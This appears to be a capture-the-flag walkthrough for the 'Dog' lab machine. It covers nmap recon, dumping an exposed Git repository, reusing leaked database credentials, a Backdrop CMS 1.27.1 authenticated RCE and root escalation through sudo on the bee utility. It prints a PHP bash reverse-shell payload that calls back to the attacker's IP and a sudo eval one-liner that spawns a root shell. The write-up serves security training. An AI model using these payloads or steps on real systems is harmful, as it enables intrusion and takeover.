

# Description

Dog is an easy Linux machine that demonstrates exposed Git repository, vulnerable Backdrop CMS installation, and privilege escalation through Backdrop CMS `bee` utility program.

# Recon

## nmap

Result of `nmap` scan :

```bash
# Nmap 7.95 scan initiated Sun Mar 23 13:50:12 2025 as: nmap -vvv -F -4 -sSCV -oN  fast_tcp_scan.txt 10.10.11.58
Nmap scan report for 10.10.11.58 (10.10.11.58)
Host is up, received echo-reply ttl 63 (0.031s latency).
Scanned at 2025-03-23 13:50:12 WIB for 8s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDEJsqBRTZaxqvLcuvWuqOclXU1uxwUJv98W1TfLTgTYqIBzWAqQR7Y6fXBOUS6FQ9xctARWGM3w3AeDw+MW0j+iH83gc9J4mTFTBP8bXMgRqS2MtoeNgKWozPoy6wQjuRSUammW772o8rsU2lFPq3fJCoPgiC7dR4qmrWvgp5TV8GuExl7WugH6/cTGrjoqezALwRlKsDgmAl6TkAaWbCC1rQ244m58ymadXaAx5I5NuvCxbVtw32/eEuyqu+bnW8V2SdTTtLCNOe1Tq0XJz3mG9rw8oFH+Mqr142h81jKzyPO/YrbqZi2GvOGF+PNxMg+4kWLQ559we+7mLIT7ms0esal5O6GqIVPax0K21+GblcyRBCCNkawzQCObo5rdvtELh0CPRkBkbOPo4CfXwd/DxMnijXzhR/lCLlb2bqYUMDxkfeMnmk8HRF+hbVQefbRC/+vWf61o2l0IFEr1IJo3BDtJy5m2IcWCeFX3ufk5Fme8LTzAsk6G9hROXnBZg8=
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM/NEdzq1MMEw7EsZsxWuDa+kSb+OmiGvYnPofRWZOOMhFgsGIWfg8KS4KiEUB2IjTtRovlVVot709BrZnCvU8Y=
|   256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPMpkoATGAIWQVbEl67rFecNZySrzt944Y/hWAyq4dPc
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 3836E83A3E835A26D789DDA9E78C5510
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home | Dog
| http-robots.txt: 22 disallowed entries
| /core/ /profiles/ /README.md /web.config /admin
| /comment/reply /filter/tips /node/add /search /user/register
| /user/password /user/login /user/logout /?q=admin /?q=comment/reply
| /?q=filter/tips /?q=node/add /?q=search /?q=user/password
|_/?q=user/register /?q=user/login /?q=user/logout
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-git:
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only ports 22 and 80 are open. The output shows the website uses Backdrop CMS and a `.git` directory was found, which we can dump using [git-dumper](https://github.com/arthaud/git-dumper).

# 80 - TCP

## git-dumper

```bash
git-dumper http://10.10.11.58/.git/ web_dump
```

Then, analyze the repository. By reading the `README.md` file content, it should be the source code for this website. You can find database credential in the `settings.php` file, but the password doesn't work for `dogBackDropSystem` username which can be found from the post or `support@dog.htb` from the about page.<br>
So, let's try to find an email `@dog.htb` from the source code using the following command :

```bash
rg '.*@dog.htb' --hidden
# or
grep -R '.*@dog.htb'
```

You should find emails for `dog@dog.htb` and `tiffany@dog.htb`. After trying to log in again, the password works for `tiffany@dog.htb` email.

## Backdrop CMS

By looking at the status reports at `/?q=admin/reports/status`, the current Backdrop CMS version is `1.27.1` which is vulnerable to [Backdrop CMS 1.27.1 - Authenticated Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/52021).<br>
I modified the exploit script so that it uses a reverse shell.

```python
shell_content = """<?php system('bash -c "bash -i >& /dev/tcp/10.10.x.x/9001 0>&1"');?>"""
```

Run the exploit script, this will only create a `.zip` file and `shell` directory containing the payload.

```bash
python exp.py http://10.10.11.58
```

From the instruction, we should upload the zip file but it throws an error. I will use the third option to upload a new module using a tar archive.

```bash
tar czf shell.tar.gz shell/
```



And we could trigger the reverse shell by visiting `/modules/shell/shell.php`.

# Shell as www-data

## Potential user

```bash
www-data@dog:/var/www/html/modules/shell$ cat /etc/passwd | grep "bash"
cat /etc/passwd | grep "bash"
root:x:0:0:root:/root:/bin/bash
jobert:x:1000:1000:jobert:/home/jobert:/bin/bash
johncusack:x:1001:1001:,,,:/home/johncusack:/bin/bash
```

Other than `root` user, we have `jobert` and `johncusack` users as a potential privilege escalation target. Let's try to switch to those users with the database password. The password should work for `johncusack` user.

# Shell as johncusack

## User flag

```bash
johncusack@dog:~$ cat user.txt
deadbeef5e9ba8816a1e41dcc156fake
```

## Sudo

The current user can run `/usr/local/bin/bee` command as all users.

```bash
johncusack@dog:~$ sudo -l
[sudo] password for johncusack:
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```

Looking at the usage of `/usr/local/bin/bee`, there's an `eval` command that could execute arbitraty PHP code.

```bash
  eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
```

This command needs a valid Backdrop CMS installation directory in order to work which is located at `/var/www/html`.

```bash
sudo bee --root=/var/www/html eval "system('/bin/bash')"
```

# Shell as root

## Root flag

```bash
root@dog:/var/www/html# cat /root/root.txt
deadbeefa67e522a2c1ccee1ac70fake
```
